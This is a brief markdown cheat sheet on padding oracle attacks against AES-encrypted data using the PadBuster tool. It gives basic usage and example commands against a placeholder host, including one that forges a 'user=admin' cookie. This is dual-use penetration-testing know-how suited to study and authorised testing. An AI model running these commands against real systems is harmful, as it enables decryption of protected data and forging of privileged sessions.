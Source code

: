 ```yaml
---
title: Padding Oracle Attack
desc: 
tags: [AES, Cryptography, Oracle, PadBuster, Padding, XOR]
alts: []
render_with_liquid: false
---
```


## Using PadBuster

**[PadBuster](https://github.com/AonCyberLabs/PadBuster){:target="_blank"}{:rel="noopener"}** is automated script for performing Padding Oracle attacks. It’s useful to decrypt AES.

1. **Basic Usage**

    ```sh
    padbuster <url> <encrypted sample> <block size> [options]
    ```

2. **Examples**

    ```sh
    # Encrypted Sample -> 2hN2bBPw==
    # 16 -> Block site
    # -encoding: 0->Base64, 1->Lower Hex, 2->Upper Hex, 3->NET UrlToken, 4->WebSafe Base64
    padbuster https://vulnerable.com/?data=2hN2bBPw== 2hN2bBPw==  16 -encoding 0

    # -cookies: specify cookie value
    padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw=="

    # -plaintext: specify plain text
    padbuster https://vulnerable.com/ 2hN2bBPw== 8 -encoding 0 -cookies "secret=2hN2bBPw==" -plaintext "user=admin"
    ```
